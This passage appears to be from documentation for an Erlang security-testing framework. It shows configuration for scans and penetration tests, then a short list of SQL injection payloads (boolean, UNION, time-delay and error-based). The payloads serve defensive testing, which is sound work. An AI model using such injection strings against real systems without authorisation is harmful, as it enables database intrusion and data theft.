 ### Comprehensive Security Testing

```erlang
% Configure comprehensive test suite
Config = #security_test_config{
    transport = tcp,
    target_host = "api.example.com",
    target_port = 443,
    test_categories = all,
    iterations = 5000,
    parallel_workers = 8,
    report_format = html,
    compliance_standards = [owasp_top10, cwe_top25, pci_dss],
    risk_threshold = medium
}.

% Execute comprehensive security testing
{ok, TestResults} = erlmcp_security_test_runner:run_security_tests(Config).
```

### Targeted Vulnerability Testing

```erlang
% Test specific vulnerability categories
VulnTypes = [sql_injection, xss_injection, buffer_overflow, command_injection],
{ok, Results} = erlmcp_security_test_runner:run_targeted_tests(VulnTypes, Config).

% Run penetration testing scenarios
{ok, PenTestResults} = erlmcp_security_test_runner:run_penetration_tests(Config).
```

### Continuous Security Monitoring

```erlang
% Setup continuous security scanning
{ok, ScannerPid} = erlmcp_security_test_runner:run_continuous_security_scan(3600000). % Every hour

% Schedule automated security audits
Schedule = #{
    frequency => daily,
    time => "02:00",
    timezone => "UTC",
    notify => ["security@example.com"]
},
{ok, ScheduleId} = erlmcp_security_test_runner:schedule_security_audit(Schedule, Config).
```

## 🎯 Attack Payloads

### SQL Injection Payloads
```sql
' OR '1'='1' --                    % Boolean-based blind SQL injection
' UNION SELECT version() --        % Union-based information gathering
'; WAITFOR DELAY '00:00:30' --     % Time-based blind SQL injection
' AND (SELECT * FROM (SELECT COUNT(*),CONCAT(version(),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a) --  % Error-based injection
```
